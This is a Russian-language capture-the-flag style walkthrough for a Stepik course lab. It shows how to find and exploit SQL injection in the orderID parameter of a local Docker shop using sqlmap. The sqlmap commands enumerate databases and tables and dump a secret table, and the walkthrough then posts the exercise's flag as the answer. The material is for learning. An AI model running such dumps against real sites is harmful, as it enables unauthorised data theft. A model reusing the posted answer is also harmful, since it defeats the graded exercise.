

# Уровень 2.1 Практика "Уязвимости SQL-инъекции" (SQL Injection)

## 🎯 Задание
Используйте стенд `courses-shop.zip` из предыдущих уроков.

**Задача:** проанализировать защищенность механизма проверки информации о заказе в интернет-магазине. Обнаружить уязвимости внедрения SQL-конструкций (SQL Injection) и проэксплуатировать их.

**Цель:** в качестве подтверждения успешной эксплуатации предоставить флаг (секретную строку в формате 32 букв и цифр) из секретного столбца секретной таблицы, имена которых заранее не известны.

---

## 🛠 Шаг 1. Инструменты
Всё необходимое для решения:
1. **Stepik** — для сдачи флага.
2. **courses-shop.zip** — архив с исходным кодом и окружением задачи.
3. **Терминал** — для удобного выполнения команд.
4. **Docker** — для запуска стенда в изолированном контейнере.
5. **Браузер** — для взаимодействия с веб-интерфейсом.
6. **sqlmap** — автоматизированный инструмент для поиска и эксплуатации уязвимостей SQL-инъекций.

---

## 🚀 Шаг 2. Запуск стенда
Если стенд еще не запущен:
1. Перейдите в рабочую директорию `courses-shop-prod` через терминал.
2. Выполните команду для развертывания:
   ```bash
   docker-compose up -d
   ```
3. После успешного запуска приложение будет доступно по адресу: http://localhost:1337

---

## 🔍 Шаг 3. Разведка и поиск уязвимости
Нам нужно найти точку входа, где данные из веб-интерфейса напрямую попадают в SQL-запрос к базе данных без должной фильтрации.

### Ход исследования:
1. Переходим на главную страницу магазина:


2. Нажимаем кнопку **Buy this course** у курса за $5/mo.
3. Заполняем появившуюся форму любыми демонстрационными данными.
4. Попадаем на страницу чека и копируем URL-адрес из строки браузера:
   `http://localhost:1337/receipt.php?orderID=2`

5. Параметр `orderID` выглядит как идеальная цель для SQL-инъекции. Запускаем утилиту `sqlmap` для сканирования этого URL на наличие уязвимостей и поиска доступных баз данных:
   ```bash
   sqlmap -u "http://localhost:1337/receipt.php?orderID=2" --dbs
   ```

> **Разбор синтаксиса:**
> * `-u` — флаг для указания целевого URL-адреса (URL обязательно берем в кавычки, чтобы терминал не путал спецсимволы вроде `?` и `&`).
> * `--dbs` — команда для перечисления (перебора) всех доступных баз данных на сервере.

6. Ждем, пока утилита отработает, и изучаем полученный лог. `sqlmap` подтверждает уязвимость и выводит список баз данных:
   ```text
   available databases [5]:
   [*] information_schema
   [*] mysql
   [*] performance_schema
   [*] sys
   [*] Task
   ```
   Среди системных БД явно выделяется пользовательская база данных **Task**. Она-то нам и нужна.

7. Теперь заставим `sqlmap` просканировать таблицы внутри целевой базы данных `Task`:
   ```bash
   sqlmap -u "http://localhost:1337/receipt.php?orderID=2" -D Task --tables
   ```

> **Разбор синтаксиса:**
> * `-D Task` — указываем конкретную базу данных, с которой хотим работать (в нашем случае `Task`).
> * `--tables` — команда для вывода списка всех таблиц в выбранной БД.

8. Получаем структуру таблиц:
   ```text
   Database: Task
   [2 tables]
   +--------------------+
   | orders             |
   | super_secret_table |
   +--------------------+
   ```
   Таблица `super_secret_table` выглядит максимально многообещающе. Именно там разработчики спрятали наши секреты.

---

## 🏆 Шаг 4. Захват флага
Выходим на финишную прямую. Нам осталось выгрузить (сдампить) всё содержимое из найденной секретной таблицы.

1. Выполняем финальную команду в терминале:
   ```bash
   sqlmap -u "http://localhost:1337/receipt.php?orderID=2" -D Task -T super_secret_table --dump
   ```

> **Разбор синтаксиса:**
> * `-T super_secret_table` — указываем конкретную таблицу для атаки.
> * `--dump` — команда для извлечения и вывода всех данных (записей) из указанной таблицы.

2. `sqlmap` успешно выгружает содержимое таблицы на экран:

| id | super_secret_column |
| :--- | :--- |
| 1 | **2c16b1c6a40ffd585faf8caddad2bb40** |

Целевой флаг успешно извлечен из секретного столбца!

**Ответ для Stepik:** `2c16b1c6a40ffd585faf8caddad2bb40`



---
### тгк: [BoCoder_Python](https://t.me/BoCoder_Python)